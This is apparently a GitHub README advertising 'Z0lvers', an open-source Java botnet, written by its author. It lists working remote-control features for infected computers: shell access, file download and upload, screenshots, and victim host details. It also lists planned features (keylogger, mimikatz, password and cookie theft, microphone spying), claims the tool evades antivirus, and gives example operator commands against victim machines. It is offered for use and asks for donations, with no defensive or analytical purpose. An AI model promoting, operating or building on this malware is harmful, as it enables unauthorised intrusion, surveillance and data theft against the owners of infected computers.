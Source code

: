 # Z0lvers
name created by Sh4dow Gh0st

It is offical the botnet is open source :D

here is a list of all the options:

it supports a 1000 users, shell acces to the infected computer, information giving about the infected computer like ( external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, downloaden and uploaden.

things that are partitional completed are: selfdestruct the virus.

the backdoor isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

things that i didn't add are Ddos or randsomeware.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence backdoor, network scan likely with nmap, passwords and cookie grap ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

this are the working options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the infected computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from infected computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

open the client with netbeans!

the botnet is supported for windows, linux, and maby mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.

I want to thank ( O shit waddup ) from hackflag for making a video tutorial for the botnet.d
https://hackflag.org/forum/member.php?action=profile&uid=5209

if you want your hacker name here donate or make the botnet famous.
retweet: https://twitter.com/martinhermens1/status/839979932541415424
if you retweet this then your name will be placed down here.

we are over 100 downloads if this botnet becomes famous and get donations than i will make updates on request.

i hope you like my botnet :D

dear regards.
mh123hack

[![Donate](https://img.shields.io/badge/Donate-PayPal-green.svg)](https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=9GJFK4K4QEDKL)

blockchain bitcoin account: 12rH6vb5t2dS3S1Q58KsSkPkyN3yraJoWz


DONATORS:
[Radje13](https://hackflag.org/forum/member.php?action=profile&uid=5835)



SHARES:

TrollForums, 
Sh4dow gh0st,
Dancing Lama
